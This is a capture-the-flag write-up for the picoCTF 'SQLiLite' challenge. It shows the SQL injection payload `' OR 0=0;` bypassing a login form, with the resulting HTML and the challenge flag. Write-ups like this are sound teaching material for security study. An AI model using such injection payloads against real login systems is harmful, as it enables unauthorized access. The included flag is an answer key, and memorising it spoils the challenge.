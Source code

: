 # SQLiLite
## Author
## Description
Can you login to this website?  
Try to login [here](http://saturn.picoctf.net:64221/).
## Approach
Let's randomly try logging in:
```
username: user
password: pass
SQL query: SELECT * FROM users WHERE name='user' AND password='pass'
```
Interesting. If we can get the SQL query to just select all then we should be able to get the flag. To do that, we can close the name select, add an OR and an always true statement so that the select will always select everything, then terminate it. One example of a way to make this work is `' OR 0=0;`. After submitting that, it shows:
```html
<body><pre>username: ' OR 0=0;
password: 
SQL query: SELECT * FROM users WHERE name='' OR 0=0;' AND password=''
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden="">Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_33d32a56}</p></body>
```
## Flag
picoCTF{L00k5_l1k3_y0u_solv3d_it_33d32a56}
